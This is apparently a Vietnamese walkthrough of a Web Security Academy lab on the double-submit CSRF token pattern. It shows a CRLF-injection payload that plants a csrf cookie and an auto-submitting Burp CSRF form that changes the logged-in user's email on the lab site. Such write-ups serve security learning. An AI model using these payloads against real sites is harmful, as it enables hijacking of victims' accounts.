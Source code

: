 ![image](https://github.com/user-attachments/assets/debb1a7f-68ef-4240-b012-33211f25b562)

Đọc challenge này thì ta có thể thấy được rằng lần này nó kêu có x2 csrf token :">>???

![image](https://github.com/user-attachments/assets/48c5db49-53ff-4ade-bcc4-5ae0ea6b801c)

Voãi ò, có 2 cái csrf token thật, nhưng chỉ có 1 acc =)), vậy idea bây giờ là gì nhỉ ???

Ta hãy thử sửa đổi csrf token đi.

![image](https://github.com/user-attachments/assets/8766efaf-799b-4e75-969c-7ba389a950f1)

![image](https://github.com/user-attachments/assets/7f02fa44-2706-4dbf-8bb8-68633d5485e0)

Bạn có thể thấy lần này server nó không check csrf token này có thực sự tồn tại trên server hay không mà nó chỉ check là 2 cái đó giống nhau là pass =)).

web này cũng có search như challenge trước, vậy thì tiến hành tạo poc thôi cũng là `crlf injection -> xss -> csrf`

**crlf injection -> xss**

```
<img src = "https://0aa4004d0406cc84805c35e400df0088.web-security-academy.net/?search=abc%0d%0aSet-Cookie:%20csrf%3da;SameSite%3dNone;">
```

**csrf**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa4004d0406cc84805c35e400df0088.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
<img src = "https://0aa4004d0406cc84805c35e400df0088.web-security-academy.net/?search=abc%0d%0aSet-Cookie:%20csrf%3da;SameSite%3dNone;">
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/3380e73b-890a-4505-a5f5-6179ea524288)

Vậy là thành công.
